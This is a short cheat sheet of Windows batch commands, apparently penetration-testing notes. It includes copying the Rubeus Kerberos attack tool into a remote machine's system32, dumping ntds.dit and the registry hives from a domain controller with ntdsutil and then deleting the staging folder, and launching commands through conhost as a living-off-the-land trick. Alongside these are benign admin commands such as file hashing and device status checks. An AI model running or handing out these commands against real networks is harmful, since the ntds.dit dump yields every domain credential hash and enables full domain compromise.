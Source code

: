 # Copy files between systems
```batchfile
xcopy "C:\Rubeus.exe" \\<computer>.<domain.local>\C$\Windows\system32\
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories
```batchfile
dir "C:\Users\*.txt" /s
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
# qwinsta
```batchfile
qwinsta /server:STBAP455FP
```
